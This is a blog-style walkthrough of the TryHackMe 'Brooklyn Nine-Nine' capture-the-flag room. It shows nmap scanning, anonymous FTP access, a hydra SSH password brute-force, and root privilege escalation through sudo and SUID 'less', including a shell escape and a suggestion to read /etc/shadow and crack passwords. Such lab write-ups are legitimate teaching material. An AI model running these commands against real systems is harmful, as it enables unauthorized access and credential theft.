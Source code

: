```yaml
---
title: "Brooklyn Nine-Nine Walkthrough"
date: 2022-04-23T00:40:28
lastmod: 2022-04-23T00:40:28
draft: false
description: "A walkthrough to the Brooklyn Nine-Nine Room on TryHackMe."

tags: ["hacking", "web", "walkthrough", "privesc"]
categories: ["TryHackMe Walkthroughs"]

---
```


# Brooklyn Nine-Nine Room
This is a brief walkthrough to the Brooklyn Nine-Nine Room on [TryHackMe]( https://tryhackme.com/room/brooklynninenine)

## Enumeration

### Nmap
```
root@ip-10-10-184-59:~# nmap -sV 10.10.9.108

Starting Nmap 7.60 ( https://nmap.org ) at 2022-04-23 00:07 BST
Nmap scan report for ip-10-10-9-108.eu-west-1.compute.internal (10.10.9.108)
Host is up (0.00098s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
MAC Address: 02:97:F2:6B:1B:69 (Unknown)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.05 seconds
```

### FTP
Let's begin with the first port and check for anonymous FTP

```
root@ip-10-10-184-59:~/Downloads# ftp 10.10.9.108
Connected to 10.10.9.108.
220 (vsFTPd 3.0.3)
Name (10.10.9.108:root): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 0        0             119 May 17  2020 note_to_jake.txt
226 Directory send OK.
ftp> get note_to_jake.txt
```

Now let's see what the note says:

```
From Amy,

Jake, please change your password. It is too weak and holt will be mad if someone hacks into the nine nine
```

## Exploitation
With that note, let's try to brute force the password for Jake's SSH account

```
root@ip-10-10-184-59:~/Tools/wordlists# hydra -l jake -P ./rockyou.txt ssh://10.10.9.108 -v -t4
Hydra v8.6 (c) 2017 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

[22][ssh] host: 10.10.9.108   login: jake   password: {omitted}

```

Now we will find the user flag, however, there is not any in Jake's directory - so let's explore other users’ directories by going to /home. 

We can find the flag in /home/holt.

## Privilege Escalation
Now we will check to see commands that Jake can run as root:

```
jake@brookly_nine_nine:/home/holt$ sudo -l
Matching Defaults entries for jake on brookly_nine_nine:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jake may run the following commands on brookly_nine_nine:
    (ALL) NOPASSWD: /usr/bin/less
```

So we can use the less command as root. As less can read files, we will just use sudo in front of it, so `sudo less /root/root.txt`.

## Privilege Escalation 2
The challenge mentions there are two ways to find the flag, so let’s try to discover the second way. First search for SUID files using `find / -perm /4000 2>/dev/null`. From this, we find that /bin/less has the sticky bit set, therefore, we can use `/bin/less /root/root.txt` to read the flag.

## Persistence
From the above two privilege escalation steps, we are still unable to effectively run commands as the root user. This can be changed using one of the following methods:

- [GTFObins](https://gtfobins.github.io/gtfobins/less/#sudo) provides a solution to escalate to root. Open any file with the less command, then type `!/bin/sh` to spawn a root privileged shell (see below):

```
jake@brookly_nine_nine:/home/holt$ sudo less /root/root.txt
# ls
nano.save  user.txt
# whoami
root
```

- As you can read any file, you could read the /etc/shadow and /etc/passwd files and attempt to crack the passwords (Nb: this will only work if a weak password has been set).
